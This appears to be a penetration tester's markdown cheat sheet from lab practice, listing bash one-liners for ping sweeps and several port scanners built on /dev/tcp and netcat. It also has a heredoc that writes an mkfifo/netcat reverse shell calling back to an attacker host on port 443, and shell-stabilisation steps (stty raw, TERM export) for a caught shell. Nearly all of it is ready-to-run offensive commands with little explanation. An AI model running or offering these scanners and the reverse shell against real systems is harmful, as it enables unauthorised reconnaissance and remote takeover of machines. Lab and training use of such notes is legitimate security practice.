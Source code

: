 #### Network scanner
```bash
#!/bin/bash
for i in `seq 1 255`; do ping -c 1 10.11.1.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done
```
```bash
for i in {1..255}; do (ping -c 1 x.x.x.${i} | grep "bytes from" &); done
```
[[netcat#NC port scanner]]
#### Port scanner
```bash - kali
#!/bin/bash
#./portscanner.sh -i xxx.xxx.xxx.xxx -p
#Variables
empty=""
#Arguments for the script
while [ "$1" != "" ]; do
	case "$1" in
		-i | --ip )		ip="$2";	shift;;
		-p | --ports )		ports="$2";	shift;;
	esac
	shift
done
#Checking if the -i is empty
if [[ $ip == $empty ]]; then
	echo "Please specify an IP address with -i"
	exit
fi
#checking is -p is empty
if [[ $ports == $empty ]]; then
	echo "Please specify the max port range -p"
	exit
fi
#Scans ports/Dumps closed ports/displays open ports
for i in $(seq 1 $ports); do
	( echo > /dev/tcp/$ip/$i) > /dev/null 2>&1 && echo $ip":"$i "is open";
done
```
#### Another port scanner
```bash
for i in {1..65535}; do (echo > /dev/tcp/$TARGET/$i) > /dev/null 2>&1 && echo $1 is open; done
```
#### port.sh
```
#!/bin/bash
if ["$1" == "" ]
then
  echo "Usage: ./port.sh [IP]"
  echo "Example ./port.sh $TARGET"
else
  echo "Please wait while it is scanning all the open ports..."
  nc -nvz $1 1-65535 > $1.txt 2>&1
fi
tac $1.txt
rm -rf $1.txt
```
#### EOF
```bash - target
cat > script.sh <<EOF
```
```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```
```bash - target
EOF
```
#### STTY Terminal
```bash - kali
CTRL+Z
```
```bash - kali
stty raw -echo
```
```bash - kali
stty size
```
```bash - kali
fg
```
```bash - kali
export SHELL=bash
```
```bash - kali
stty rows $x columns $y
```
```bash - kali
export TERM=xterm-256color
```
